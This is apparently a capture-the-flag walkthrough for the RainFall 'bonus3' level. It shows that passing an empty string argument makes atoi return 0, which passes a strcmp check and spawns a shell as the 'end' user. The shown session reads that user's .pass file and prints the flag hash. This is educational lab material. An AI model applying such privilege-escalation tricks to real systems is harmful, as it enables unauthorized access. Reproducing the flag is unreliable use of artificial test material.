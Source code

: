  # Walkthrough bonus3

We have a buffer in which we put a '\0' at buffer[atoi(argv[1])].  
So to enter in strcmp we must have a null byte in argv[1] and atoi return 0.  

We have tried with "python -c" to fill argv[1] with null byte. But it's not working.  
So we have used an another strategy: an empty string.  

``` bash
bonus3@RainFall:~$ ./bonus3 ''
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
